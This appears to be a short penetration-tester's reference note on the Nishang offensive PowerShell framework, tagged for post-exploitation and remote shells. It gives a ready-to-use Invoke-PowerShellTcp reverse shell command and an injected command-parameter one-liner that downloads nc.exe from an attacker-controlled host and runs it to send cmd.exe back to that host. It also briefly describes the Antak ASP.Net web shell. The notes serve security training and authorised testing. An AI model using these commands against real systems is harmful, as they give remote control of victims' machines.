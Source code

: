 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Exploitation
  - ObtainingRemoteShells
---
```

Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

# Remote Shells

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```



## Antak Web Shell

Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. The UI is even themed like PowerShell. It's time to dive in and experiment with Antak.







